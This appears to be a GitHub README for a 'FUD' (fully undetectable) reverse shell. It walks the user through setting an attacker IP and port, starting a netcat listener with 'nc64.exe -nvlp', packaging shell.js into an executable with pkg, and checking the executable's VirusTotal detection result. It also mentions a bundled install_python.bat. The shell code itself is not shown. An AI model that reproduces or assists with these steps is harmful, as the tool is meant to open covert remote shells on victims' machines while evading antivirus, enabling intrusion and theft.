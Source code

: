 ## Setup:
» Change the 127.0.0.1 ip address in the codes according to yourself

» Change the 4444 port in the codes according to your own

» if you are using windows you need to download netcat first
[install netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip) 

» After downloading open cmd as administrator

» After opening cmd, type them in order 

`cd ..` 

`cd netcat-win32-1.11`

`cd netcat-1.11`

`nc64.exe -nvlp Your Port`

» if you want to exe js code first Install [Node.js](https://nodejs.org/en/download/) 

» to make exe from js `npm install pkg`

`pkg shell.js`


» js to exe virustotal result

<img style="border-radius: 15px; display: block; margin-left: auto; margin-right: auto; margin-bottom:20px;" width="55%" src="https://raw.githubusercontent.com/Ayhuuu/Reverse-Shell-Fud/main/img/js.png"></img>

» runs install_python.bat if python is installed
